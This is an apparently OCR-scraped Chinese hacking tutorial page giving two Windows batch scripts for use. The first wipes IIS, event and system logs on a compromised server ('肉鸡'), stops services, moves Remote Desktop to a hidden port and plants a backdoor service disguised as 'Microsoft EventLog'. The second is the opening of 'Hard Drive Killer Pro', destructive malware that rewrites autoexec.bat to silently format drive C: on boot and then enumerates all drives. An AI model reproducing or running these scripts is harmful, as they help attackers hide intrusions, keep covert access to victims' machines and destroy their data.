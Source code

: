 下面命令是清除肉鸡所有日志,禁止一些危险的服务,并修改肉鸡的terminnal service留跳后路。 

```

@regedit /s patch.dll  
@net stop w3svc  
@net stop event log  
@del c:/winnt/system32/logfiles/w3svc1/*.* /f /q  
@del c:/winnt/system32/logfiles/w3svc2/*.* /f /q  
@del c:/winnt/system32/config/*.event /f /q  
@del c:/winnt/system32dtclog/*.* /f /q  
@del c:/winnt/*.txt /f /q  
@del c:/winnt/*.log /f /q  
@net start w3svc  
@net start event log  
@rem [删除日志]  
@net stop lanmanserver /y  
@net stop Schedule /y  
@net stop RemoteRegistry /y  
@del patch.dll  
@echo The server has been patched,Have fun.  
@del patch.bat  
@REM [禁止一些危险的服务。]  
@echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server/WinStations/RDP-Tcp] >>patch.dll  
@echo "PortNumber"=dword:00002010 >>patch.dll  
@echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Terminal Server/Wds/rdpwd/Tds/tcp >>patch.dll  
@echo "PortNumber"=dword:00002012 >>patch.dll  
@echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Services/TermDD] >>patch.dll  
@echo "Start"=dword:00000002 >>patch.dll  
@echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Services/SecuService] >>patch.dll  
@echo "Start"=dword:00000002 >>patch.dll  
@echo "ErrorControl"=dword:00000001 >>patch.dll  
@echo "ImagePath"=hex(2):25,00,53,00,79,00,73,00,74,00,65,00,6d,00,52,00,6f,00,6f,00,/ >>patch.dll  
@echo 74,00,25,00,5c,00,53,00,79,00,73,00,74,00,65,00,6d,00,33,00,32,00,5c,00,65,/ >>patch.dll  
@echo 00,76,00,65,00,6e,00,74,00,6c,00,6f,00,67,00,2e,00,65,00,78,00,65,00,00,00 >>patch.dll  
@echo "ObjectName"="LocalSystem" >>patch.dll  
@echo "Type"=dword:00000010 >>patch.dll  
@echo "Description"="Keep record of the program and windows message。" >>patch.dll  
@echo "DisplayName"="Microsoft EventLog" >>patch.dll  
@echo [HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Services/termservice] >>patch.dll  
@echo "Start"=dword:00000004 >>patch.dll  
@copy c:/winnt/system32/termsrv.exe c:/winnt/system32/eventlog.exe  
@REM [修改3389连接,端口为8210(十六进制为00002012),名称为Microsoft EventLog,留条后路] 
```

###3.Hard Drive Killer Pro Version 4.0(玩批处理到这个水平真的不容易了。)  

------------ cut here then save as .bat or .cmd file -------  

```
@echo off  
rem This program is dedecated to a very special person that does not want to be named.  
:start  
cls  
echo PLEASE WAIT WHILE PROGRAM LOADS . . .  
call attrib -r -h c:/autoexec.bat >nul  
echo @echo off >c:/autoexec.bat  
echo call format c: /q /u /autoSample >nul >>c:/autoexec.bat  
call attrib +r +h c:/autoexec.bat >nul  
rem Drive checking and assigning the valid drives to the drive variable.  
set drive=  
set alldrive=c d e f g h i j k l m n o p q r s t u v w x y z  
rem code insertion for Drive Checking takes place here.  
```